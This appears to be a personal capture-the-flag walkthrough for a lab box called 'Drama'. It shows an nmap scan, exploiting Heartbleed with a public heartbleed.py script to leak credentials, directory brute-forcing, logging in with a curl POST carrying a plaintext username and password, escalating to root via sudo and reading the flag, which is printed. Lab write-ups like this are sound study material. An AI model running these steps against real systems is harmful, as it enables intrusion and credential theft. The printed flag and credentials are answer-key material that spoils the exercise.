

# Drama
[Day 6](../../Day%206.md)

Nmap the targer, find 80 and 443


Run ssltest on 443 to disclose heartbleed. 

Used #hartbleed vulnerability on the host to expose some information on a username and a password



```Bash
git clone https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py
```

```Bash
./hartbleed.py <target>
```

Find some credentials

Dirb the host, find the directories `server-status` and `/login.php` and `index.php`. If you inspect right or use burp you'll see it is giving an "invalid method" error. A post tells us it is expecting different parameters, "username" and "password". 

Use #curl to #curl/post the recovered username and password

```Bash
┌──(edward㉿kali)-[~]
└─$ curl -X POST 10.50.156.211/login.php --data "username=harriet&password=WhatsInTheBox844" 
```

Returns SSh credentials

User creds with the box as `harriet_sudo`, user us a sodoer, get flag from `/root`. 

```Bash
FLAG{dwbi2eybdosadn1E@Dakhqe1e1es93}
```
